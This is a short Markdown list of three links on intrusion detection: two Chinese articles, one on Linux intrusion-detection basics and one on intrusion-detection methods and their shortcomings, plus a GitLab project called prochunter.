[Linux 入侵检测基础](http://thief.one/2017/03/24/Linux%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%85%A5%E4%BE%B5%E6%A3%80%E6%B5%8B%E5%9F%BA%E7%A1%80/)  
[入侵检测方法和缺陷](http://www.venustech.com.cn/NewsInfo/385/7467.Html)  
[prochunter](https://gitlab.com/nowayout/prochunter)  
